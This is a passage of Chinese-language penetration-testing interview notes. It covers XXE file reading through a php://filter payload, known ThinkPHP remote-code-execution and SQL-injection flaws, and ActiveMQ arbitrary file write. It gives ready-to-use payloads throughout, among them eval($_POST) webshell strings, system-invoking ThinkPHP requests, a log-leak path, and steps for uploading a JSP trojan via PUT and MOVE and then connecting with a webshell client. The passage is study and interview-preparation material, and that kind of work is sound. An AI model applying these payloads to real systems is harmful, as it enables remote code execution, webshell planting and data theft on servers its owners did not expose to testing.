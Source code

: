 ```
php://filter/read=convert.base64-encode/resource=file:///c:/windows/system.ini
```

（回显利用3：利用expect扩展库进行命令执行，需要安装expect库）

回显利用4：利用php自带的协议进行内网探测

回显利用5：利用php自带的协议进行内网探测

无回显利用：利用参数实体进行文件读取外带



#### **整理thinkphp存在哪些历史漏洞，分别如何利用?**

1、 ThinkPHP2.x远程代码执行漏洞：

ThinkPHP 2.x版本中，preg_replace的/e模式匹配路由导致输入参数被插入双引号中当做代码函数执行，因此造成任意代码执行漏洞。

Payload：[/index.php?s=/index/index/aaa/${@phpinfo()}](mailto:/index.php?s=/index/index/aaa/${@phpinfo()})

/index.php?s=/index/index/aaa/${${@eval($_POST[pass])}}

2、 ThinkPHP 5.1.x SQL注入漏洞

在ThinkPHP5.1.23之前的版本中存在SQL注入漏洞，该漏洞是由于程序在处理order by 后的参数时，未正确过滤处理数组的key值所造成。如果该参数用户可控，且当传递的数据为数组时，会导致漏洞的产生。

3、ThinkPHP3[日志](https://so.csdn.net/so/search?q=日志&spm=1001.2101.3001.7020)泄露

可以直接访问日志目录，可以看到泄露的日志thinkphp日志文件。

Payload：/Application/Runtime/Logs/Home/21_04_20.log

4、ThinkPHP5.0.23远程代码执行漏洞

在ThinkPHP5.0.23以前版本中，获取的method的方法中没有准确的处理方法名，因此可以调用request方法构造利用点。抓包修改请求方式POST,写入shell.php

Payload: _method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id

5、ThinkPHP5.0.21远程命令执行漏洞

没有对路由中的控制器进行严格过滤，没有开启强制路由的情况下可以执行系统命令。

Payload：/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=命令参数

#### Activemq任意文件写入漏洞具体如何利用？

首先可以通过admin-admin登陆，访问/admin/test/systemProperties.jsp api里面记录了根目录和其他配置信息

然后我们对/fileserver/1.txt网页进行抓包，修改请求方式为PUT类型，在请求数据中插入jsp木马，重放数据包，得到204的响应包表示写入成功

然后我们修改请求类型为MOVE，就是将写入的1.txt文件路径改掉，在请求头里加上我们需要改成的路径和文件名（Destination:file:///opt/activemq/webapps/api/q.jsp），重放数据包，得到204的响应包表示文件路径修改成功

然后我们打开/api/q.jsp访问，发现需要进行admin登陆验证，我们对网页抓包，得到请求头

然后使用冰蝎连接，加上获取到的请求头，就可以连接成功啦

#### Shiro的一般特征是什么？
